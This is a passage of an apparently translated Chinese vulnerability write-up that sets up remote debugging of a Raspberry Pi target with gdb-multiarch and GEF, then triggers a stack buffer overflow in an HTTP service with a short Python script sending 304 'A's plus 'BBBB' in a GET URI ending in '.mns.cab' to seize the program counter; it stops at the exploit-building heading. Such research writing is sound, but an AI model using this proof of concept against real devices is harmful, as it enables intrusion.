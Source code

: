 ```

```  
  
然后我使用 gdb-multiarch  
 从我的机器连接到它。  
```
$ gdb-multiarch
GNU gdb (Debian 15.2-1+b1) 15.2
Copyright (C) 2024 Free Software Foundation, Inc.
(...)
gef➤ gef-remote 192.168.2.2 8888

```  
  
最终的调试环境设置大致如下7  
 8  
:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCMdNqtzMibt5ibQibbEYuUZb85NicKnBmdias0Mp6ibv2iarynw3pKvyXoe2nJiay63FiadwTsZgYE0ibn9qj8g/640?wx_fmt=png&from=appmsg "")  
  
使用 GDB-Server 和 GEF-client 的 Raspberry Pi 调试环境  
  
这种设置允许在攻击者机器上使用 GEF9  
 来设置断点并远程调试 Pi 上的目标。完美。  
## 触发漏洞  
  
有了上述环境设置，我们就可以尝试触发已识别的漏洞。这个过程与任何此类 pwn 二进制利用挑战没有什么不同。要控制程序执行，我们首先需要确定输入在栈上覆盖特定偏移量的位置，该位置最终会被弹出到程序计数器 (PC) 中。通过发送唯一的模式并观察程序崩溃时哪些字节最终出现在 PC 中，我们可以精确定位偏移量。唯一需要记住的是要始终以 .mns.cab  
 结束 URI，以确保命中正确的代码路径。  
```
import sys
import socket

payload = b""
payload += 304 * b"A" + b"BBBB"

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
    sock.connect((sys.argv[1], int(sys.argv[2])))
    sock.send(b"GET /" + payload + b".mns.cab HTTP/1.1")
    sock.send(b"\r\n\r\n")

    print(sock.recv(1024))

```  
  
为了观察服务器端发生的情况，我在漏洞部分之后的返回语句处设置了一个断点，就在第二次调用 fwrite  
 之后。如下所示，寄存器 r4 到 r10 从栈中弹出，然后是 PC。使用上述 Python 脚本，这些寄存器被填充为字符 A，而 PC 被设置为 BBBB  
，标记了控制流劫持的入口点。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCMdNqtzMibt5ibQibbEYuUZb858l4iayviciaqQUe9bcluUiaPJzZ1gr04xqbB2BmCTPD2yIM7l80m0MXY9g/640?wx_fmt=png&from=appmsg "")  
  
触发缓冲区溢出漏洞  
## 构建 Exploit  
  